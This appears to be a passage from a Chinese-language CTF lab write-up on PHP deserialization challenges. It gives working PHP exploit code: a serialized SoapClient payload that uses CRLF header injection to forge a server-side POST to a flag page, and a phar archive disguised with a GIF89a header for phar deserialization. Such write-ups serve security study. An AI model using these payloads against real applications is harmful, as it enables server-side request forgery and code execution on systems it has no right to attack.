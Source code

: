 soap数据包测试方法：将loaction更改为监听ip和端口即可（注意：该包是index.php”发出“的）。

下图实例（公网ip测试）：![image-20220217103937584](./pic/image-20220217103937584.png)

```php
<?php
$post_data='pass=password';
$data_len=strlen($post_data);
$a = new SoapClient(null,array('location'=>'http://shiyan/SER/level10/flag.php','user_agent'=>'admin^^Content-Type: application/x-www-form-urlencoded^^Content-Length: '.$data_len.'^^^^'.$post_data,'uri'=>'bbba'));
$b = serialize($a);
$b = str_replace('^^',"\r\n",$b);
$b = str_replace('&','&',$b);
echo urlencode($b);
```

**level11 a phar**

```php
<?php
class TestObject {
}

@unlink("phar1.phar");
$phar = new Phar("phar1.phar");
$phar->startBuffering();
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");
$o = new TestObject();
$phar->setMetadata($o);
$phar->addFromString("test.txt", "test"); 
$phar->stopBuffering();
?>
```

![image-20220221092905715](./pic/image-20220221092905715.png)
